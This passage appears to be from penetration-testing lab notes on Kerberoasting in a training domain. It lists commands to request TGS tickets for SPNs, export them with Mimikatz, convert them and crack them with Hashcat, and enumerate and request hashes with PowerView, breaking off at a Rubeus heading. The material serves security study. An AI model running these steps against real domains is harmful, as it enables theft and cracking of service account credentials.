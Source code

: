 #### 2. Requesting TGS Tickets via PowerShell
```powershell
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
This loads a TGS ticket for the specified SPN into memory.

#### 3. Extracting Tickets with Mimikatz
```shell
mimikatz # kerberos::list /export
```
This command exports all Kerberos tickets from memory as `.kirbi` files.

#### 4. Preparing Tickets for Cracking
- If using base64 output:
  - Remove newlines/whitespace:
    ```shell
    echo "<base64 blob>" | tr -d '\n' > encoded_file
    base64 -d encoded_file > sqldev.kirbi
    ```
- Extract the hash using `kirbi2john.py`:
    ```shell
    python2.7 kirbi2john.py sqldev.kirbi > crack_file
    sed 's/\$krb5tgs\$(.*):(.*)/\$krb5tgs\$23\$*\1*\$\2/' crack_file > sqldev_tgs_hashcat
    ```
- Crack with Hashcat:
    ```shell
    hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
    ```

### Automated / Tool-Based Methods

Modern Kerberoasting is much faster and more efficient using PowerView and Rubeus.

#### Using PowerView

- **Enumerate SPN Accounts:**
    ```powershell
    Import-Module .\PowerView.ps1
    Get-DomainUser * -spn | select samaccountname
    ```
- **Request TGS Ticket for a User in Hashcat Format:**
    ```powershell
    Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
    ```
- **Export All Tickets to CSV:**
    ```powershell
    Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
    ```

#### Using Rubeus
